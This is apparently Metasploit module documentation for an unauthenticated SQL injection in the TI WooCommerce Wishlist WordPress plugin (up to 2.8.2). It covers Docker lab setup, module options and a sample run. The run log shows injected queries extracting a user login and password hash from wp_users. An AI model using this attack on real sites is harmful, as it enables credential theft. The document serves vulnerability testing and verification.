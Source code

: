 ## Vulnerable Application

The vulnerability affects the **TI WooCommerce Wishlist** plugin for WordPress,
versions **up to 2.8.2**, allowing **unauthenticated SQL injection** via specific parameters.
The **WooCommerce** plugin is also required for the setup.

### Pre-requisites:
- **Docker** and **Docker Compose** installed.

### Setup Instructions:

1. **Download the Docker Compose file**:
   Save the following content in a `docker-compose.yml` file:

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   Run the following command in the directory where you saved the `docker-compose.yml` file:

```bash
docker-compose up -d
```

3. **Install WooCommerce and TI WooCommerce Wishlist Plugins**:
   - Download the WooCommerce and TI WooCommerce Wishlist plugins:

```bash
wget https://downloads.wordpress.org/plugin/woocommerce.9.3.3.zip
wget https://downloads.wordpress.org/plugin/ti-woocommerce-wishlist.2.8.2.zip
```

   - Install the plugins by copying them into your WordPress container:

```bash
unzip woocommerce.9.3.3.zip
docker cp woocommerce wordpress:/var/www/html/wp-content/plugins/

unzip ti-woocommerce-wishlist.2.8.2.zip
docker cp ti-woocommerce-wishlist wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate WooCommerce and TI WooCommerce Wishlist Plugins**:
   - Navigate to `http://localhost:5555/wp-admin` in your browser, and activate both
   **WooCommerce** and **TI WooCommerce Wishlist** plugins.
   - Complete the WooCommerce setup wizard to ensure the plugin is properly
   initialized, including configuring the site through the "Customize Site" option.

## Verification Steps

1. **Set up WordPress** with the vulnerable **TI WooCommerce Wishlist 2.8.2** and **WooCommerce** plugins.
2. **Start Metasploit** using `msfconsole`.
3. Use the appropriate module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_ti_woocommerce_wishlist_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   The SQL injection will attempt to retrieve or manipulate data from the WordPress database through the `order` parameter.

## Options

### PRODUCT_ID_MIN and PRODUCT_ID_MAX
These options specify the range of `product_id` values used to bruteforce the product
during the SQL injection attack.
The default range is from 1 to 100, but this can be adjusted based on your target.

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **TI WooCommerce Wishlist 2.8.2** with **WooCommerce** in a Docker environment.

### Step-by-step Scenario

```bash
msf auxiliary(scanner/http/wp_ti_woocommerce_wishlist_sqli) > run http://127.0.0.1:5555

[*] Testing Product IDs from 0 to 100, please wait...
[+] Share key found: e93cca
[*] Performing SQL Injection using share key: e93cca
[*] SQL Injection successful, retrieving user credentials...
[*] {SQLi} Executing (SELECT 4 FROM information_schema.tables WHERE table_name = 'wp_users')
[*] {SQLi} Encoded to (SELECT 4 FROM information_schema.tables WHERE table_name = 0x77705f7573657273)
[*] {SQLi} Time-based injection: expecting output of length 1
[*] {WPSQLi} Retrieved default table prefix: 'wp_'
[*] {SQLi} Executing (select group_concat(CvjX) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CvjX from wp_users limit 1) cUla)
[*] {SQLi} Encoded to (select group_concat(CvjX) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x2f,0)),ifnull(user_pass,repeat(0x8c,0))) as binary) CvjX from wp_users limit 1) cUla)
[*] {SQLi} Time-based injection: expecting output of length 44
[*] {WPSQLi} Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240930123016_default_127.0.0.1_wordpress.users_970346.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

